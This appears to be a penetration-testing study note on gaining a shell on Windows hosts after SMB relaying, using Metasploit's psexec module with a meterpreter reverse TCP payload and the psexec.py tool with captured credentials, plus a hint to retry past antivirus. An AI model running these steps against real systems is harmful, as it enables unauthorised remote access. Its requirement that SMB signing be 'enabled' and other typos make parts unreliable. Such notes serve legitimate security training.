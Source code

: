 
### Requirements for SMB Relay Shell

1.  SMB signing is enabled [[2.2.2 Identify If target is Vulnerable to SMB Relaying |Identify here]]
2.  You have a username and a password (From the previous task in which you got the hashes)
3. You can the username and password to gain a shell
4. You will use Metasploit or PSEXEC

#### Gaining Shell Access with Metasploit from SMB Relaying

1.  Msfconsole
2.  search psexec
3.  use exploit/windows/smb/psexec
4.  Options
5.  Set RHOSTS (IP Address)
6.  Set smbdomain (domain name)
7.  Set smbpass (Password0
8.  Set smbuser (username)

![image1](image1-93.png)

9.  Set payload windows/x64/meterpreter/reverse_tcp

![image2](image2-44.png)

10. Set lhosts eth0
11. Run

![image3](image3-30.png)

It might or might not always work,

- You can try running it 3 times and see
- As seen above the antivirus block the attack so you can try other methods

### Using PSEXEC to get Shell Access 

Use the below command:
```powershell 
psexec.py (domainname)/username:password@ip_address
```

![image4](image4-20.png)

